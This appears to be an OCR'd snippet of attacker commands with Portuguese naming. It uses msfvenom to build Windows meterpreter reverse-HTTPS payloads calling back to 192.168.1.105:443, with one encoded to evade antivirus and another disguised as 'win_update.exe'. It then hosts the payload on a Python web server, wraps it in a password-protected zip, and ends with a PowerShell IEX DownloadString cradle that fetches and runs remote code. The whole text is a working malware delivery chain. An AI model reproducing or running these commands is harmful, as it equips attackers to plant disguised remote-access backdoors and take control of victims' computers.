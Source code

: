 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f psh-cmd -o payload.ps1


python3 -m http.server 8080

http://192.168.1.105:8080/payload_protegido.zip



zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.105:8080/payload.ps1')



